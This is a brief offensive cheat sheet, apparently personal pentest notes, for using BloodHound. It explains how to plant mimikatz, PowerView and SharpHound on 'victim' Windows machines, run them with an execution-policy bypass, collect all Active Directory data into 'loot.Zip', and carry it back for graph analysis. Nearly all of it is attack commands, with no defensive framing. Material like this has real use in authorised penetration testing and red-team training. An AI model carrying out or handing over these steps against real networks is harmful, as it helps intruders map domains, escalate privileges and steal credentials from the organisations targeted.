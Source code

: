 # Bloodhound
```
First Start ------>>>>> neo4j console
Open it in browser ------>>>>> http://localhost:7474/
Login with ------>>>>> neo4j/123456 Default pass is {neo4j/neo4j}
Open ------>>>>> bloodhound in terminal
Login ------>>>>> user/pass
```

# Connect with victim windows systems and put these 3 files. 
```
1). mimikatz.exe
2). powerView.ps1
3). SharpHound.ps1
```

# Use these cmds in victim systems. 
```
1). powershell -ep bypass
2). ..\SharpHound.ps1
3). Invoke-Bloodhound -CollectionMethod All -Domain controller.local -ZipFileName loot.Zip
```

# Take loot.Zip file to import bloodhound in our systems
```
1). import graph ---->>> uploaded file here
2). Check it and enjoy it.
```
